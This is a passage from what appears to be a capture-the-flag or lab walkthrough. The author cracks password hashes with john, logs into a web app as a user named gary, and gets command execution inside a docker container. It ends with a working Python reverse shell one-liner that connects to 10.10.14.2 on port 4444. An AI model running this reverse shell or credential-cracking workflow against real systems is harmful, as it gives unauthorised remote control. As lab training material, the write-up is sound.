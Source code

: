 &#x20;I was able to get out the remaining hashes, which were for **root and gary.** We can crack these using john. Only one of them was crackable, and it was gary's.

<figure><img src="../../../.gitbook/assets/image (2159).png" alt=""><figcaption></figcaption></figure>

So his password is rubberducky. With these credentials, we can log in to the website as gary.

### Container Creation

Within the login, we are able to simply register and start a new docker container.

<figure><img src="../../../.gitbook/assets/image (451).png" alt=""><figcaption></figcaption></figure>

Within each docker container, we can basically get RCE on it. This can be done using the execute command button. I found that using the one without the background creates a very unstable shell, so use the other one.

<figure><img src="../../../.gitbook/assets/image (1531).png" alt=""><figcaption></figcaption></figure>

We can use this reverse shell command:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
